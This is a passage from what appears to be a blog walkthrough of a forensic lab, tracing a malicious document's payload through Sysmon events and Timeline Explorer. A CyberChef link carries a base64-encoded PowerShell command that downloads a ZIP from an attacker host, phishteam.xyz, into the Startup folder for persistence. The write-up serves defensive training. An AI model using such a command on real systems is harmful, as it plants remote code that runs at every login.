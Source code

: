 

<li class="has-small-font-size">Process Creation (Event ID 1) and File Creation (Event ID 11) following the document execution are worth examining.</li>
</ul>



<h2 class="wp-block-heading has-text-color has-link-color" style="color:#74103e;font-size:1.5rem">Task</h2>



<p class="has-text-align-justify has-small-font-size"><strong>The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?</strong><br>First, we will decode the base64 string obtained from the previous question. By copying and pasting the string into <a href="https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&amp;input=SkdGd2NEMWJSVzUyYVhKdmJtMWxiblJkT2pwSFpYUkdiMnhrWlhKUVlYUm9LQ2RCY0hCc2FXTmhkR2x2YmtSaGRHRW5LVHRqWkNBaUpHRndjRnhOYVdOeWIzTnZablJjVjJsdVpHOTNjMXhUZEdGeWRDQk5aVzUxWEZCeWIyZHlZVzF6WEZOMFlYSjBkWEFpT3lCcGQzSWdhSFIwY0RvdkwzQm9hWE5vZEdWaGJTNTRlWG92TURKa1kyWXdOeTkxY0dSaGRHVXVlbWx3SUMxdmRYUm1hV3hsSUhWd1pHRjBaUzU2YVhBN0lFVjRjR0Z1WkMxQmNtTm9hWFpsSUM1Y2RYQmtZWFJsTG5wcGNDQXRSR1Z6ZEdsdVlYUnBiMjVRWVhSb0lDNDdJSEp0SUhWd1pHRjBaUzU2YVhBN0NnPT0">Cyberchef</a>, we can determine the payload executed by the malicious document.</p>



<figure class="wp-block-image size-large"><a href="https://1earnwithren.wordpress.com/wp-content/uploads/2024/10/image-244.png"><img src="https://1earnwithren.wordpress.com/wp-content/uploads/2024/10/image-244.png?w=1024" alt="" class="wp-image-3215" /></a></figure>



<p class="has-tertiary-background-color has-background has-small-font-size"><strong>NOTE</strong>: The command downloads a .ZIP file and extracts its contents into the Startup folder of the Start Menu. After extraction, it deletes the ZIP file to clean up.</p>



<p class="has-text-align-justify has-small-font-size">By analyzing the command, I noted that the startup folder is involved. By inputting the path ($app\Microsoft\Windows\Start Menu\Programs\Startup) into ChatGPT, I received the full path. I then just needed to fill in the username.</p>



<p class="has-tertiary-background-color has-background has-small-font-size"><kbd>C:\Users\&lt;Username&gt;\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup</kbd></p>



<p class="has-text-align-justify has-small-font-size"><strong><strong>The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?</strong></strong><br>As the Investigation Guide suggested, "The Autostart execution indicates explorer.exe as its PPID." I retrieved two PIDs from explorer.exe by searching in Payload Data3 column on Timeline Explorer.</p>



<figure class="wp-block-image size-large"><a href="https://1earnwithren.wordpress.com/wp-content/uploads/2024/10/image-245.png"><img src="https://1earnwithren.wordpress.com/wp-content/uploads/2024/10/image-245.png?w=1024" alt="" class="wp-image-3217" /></a></figure>



<p class="has-text-align-justify has-small-font-size">I filtered the PIDs separately in Payload Data3 column and found the processes created by PowerShell.</p>



